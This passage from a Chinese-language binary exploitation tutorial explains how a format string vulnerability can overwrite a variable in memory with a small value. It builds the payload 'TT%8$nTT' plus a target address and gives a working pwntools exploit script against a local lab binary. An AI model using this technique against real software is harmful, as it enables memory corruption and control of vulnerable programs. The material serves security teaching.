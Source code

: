 最终运行结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib722aUl3ibuCk7zoX2076oQW72oK2hapmSsOPB2LtuOYHPHK63gAYvCKxQ/640?wx_fmt=png&from=appmsg "")  
### 覆盖任意地址内存  
  
覆盖任意地址分两种情况，一种是写入的数值是一个比较小的数字，一种是写入的数值是比较大的数字。  
#### 覆盖小数字  
  
继续用前面我们给出的例子进行讲解  
```
a == 2

```  
  
我们想要实现a的值为2，也就是覆盖a的值让他变成2  
  
这种就属于是小于机器字长的数字，到这里有师傅就会问，这两种有什么区别呢，乍一看区别的确不大，但是如果将覆盖的地址放在最前面，将会直接占用机器字长个（4或8）字节。无论后面如何输出都会比4大。  
  
所以到这里我们就考虑是否可以将所要覆盖的地址不放在字符串的最前面，因为我们的填充字段的本身的作用是为了找到对应的偏移，所以放到中间也是可以的，我们想要做到的是通过覆盖将a的值变为2，所以格式化字符串到底前面的字节需要是这样的  
```
TT%k$nxx

```  
  
目前对应的存储的格式化字符串已经占据了6个字符串的位置，如果再添加两个字符TT，那此时TT%k就是第6个参数，$nxx是第7个参数，后面如果跟上要覆盖的地址那就是第8个参数，所以只要将k设置为8，就可以实现覆盖了，即  
```
TT%8$nTT

```  
  
下面我们就来进行覆盖操作  
  
在覆盖前，我们手下要找到a的地址，直接用Ghidra就可以分析得到  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72OYVv3XpOFLwPomnNYqq3nOicuN1rktamHpwGWzwpGOxvCZ1aq2bF3Lg/640?wx_fmt=png&from=appmsg "")  
```
a_addr = 0x0804c024

```  
  
所以最终的exp如下  
```
from pwn import *
sh = process('./format2')
a_addr = 0x0804c024
payload = b'TT%8$nTT' + p32(a_addr)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72ibmq4SBo9ssEHmyWdP0hsNGNruicz3dIpibmKDJeNxmOZQJOjicgx8dTeg/640?wx_fmt=png&from=appmsg "")  
#### 覆盖大数字  
  